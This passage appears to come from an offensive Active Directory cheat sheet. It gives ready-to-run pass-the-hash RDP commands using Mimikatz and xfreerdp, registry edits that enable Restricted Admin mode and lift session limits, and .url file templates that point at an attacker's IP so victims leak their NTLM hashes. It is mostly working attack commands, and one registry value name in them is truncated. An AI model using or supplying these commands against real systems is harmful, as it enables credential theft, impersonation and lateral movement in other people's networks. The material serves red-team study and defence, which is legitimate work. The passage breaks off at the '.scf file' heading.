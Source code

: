 - Mimikatz:

  ```powershell
  #We execute pass-the-hash using mimikatz and spawn an instance of mstsc.exe with the "/restrictedadmin" flag
  privilege::debug
  sekurlsa::pth /user:<Username> /domain:<DomainName> /ntlm:<NTLMHash> /run:"mstsc.exe /restrictedadmin"

  #Then just click ok on the RDP dialogue and enjoy an interactive session as the user we impersonated
  ```

- xFreeRDP:

```powershell
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```

:exclamation: If Restricted Admin mode is disabled on the remote machine we can connect on the host using another tool/protocol like psexec or winrm and enable it by creating the following registry key and setting it's value zero: "HKLM:\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin".

- Bypass "Single Session per User" Restriction

On a domain computer, if you have command execution as the system or local administrator and want an RDP session that another user is already using, you can get around the single session restriction by adding the following registry key:
```powershell
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUser /t REG_DWORD /d 0
```

Once you've completed the desired stuff, you can delete the key to reinstate the single-session-per-user restriction.
```powershell
REG DELETE "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUse
```


### URL File Attacks

- .url file

  ```
  [InternetShortcut]
  URL=whatever
  WorkingDirectory=whatever
  IconFile=\\<AttackersIp>\%USERNAME%.icon
  IconIndex=1
  ```

  ```
  [InternetShortcut]
  URL=file://<AttackersIp>/leak/leak.html
  ```

- .scf file
